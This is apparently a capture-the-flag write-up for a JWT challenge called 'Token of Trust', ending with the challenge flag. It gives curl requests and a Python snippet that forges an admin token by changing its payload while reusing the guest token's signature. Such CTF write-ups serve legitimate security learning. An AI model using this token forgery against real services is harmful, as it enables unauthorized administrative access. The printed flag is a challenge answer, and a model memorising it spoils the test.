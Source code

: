 # Token of Trust [200 points] (202 solves)
```bash
curl -X POST \
  -H "Content-Type: application/json" \
  -d '{"user":"ace","pass":"ctf"}' \
  http://34.131.133.224:9999/login
```
Pass the json to login will output a jwl token: `{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}`.\
In `/robots.txt`, it tells that we should submit the token to `/flag` though the given one is wrong.\
Create the admin jwl token: 
```python
import base64

header = base64.b64encode(b'{"alg":"HS256","typ":"JWT"}').decode('utf-8').rstrip('=')
payload = base64.b64encode(b'{"user":"admin"}').decode('utf-8').rstrip('=')
signature = "JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"

print(f"{header}.{payload}.{signature}")
```

Payload:
```bash
curl -X POST \
  -H "Content-Type: application/json" \
  -d '{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}' \
  http://34.131.133.224:9999/flag
```

flag: `ACECTF{jwt_cr4ck3d_4dm1n_4cce55_0bt41n3d!}`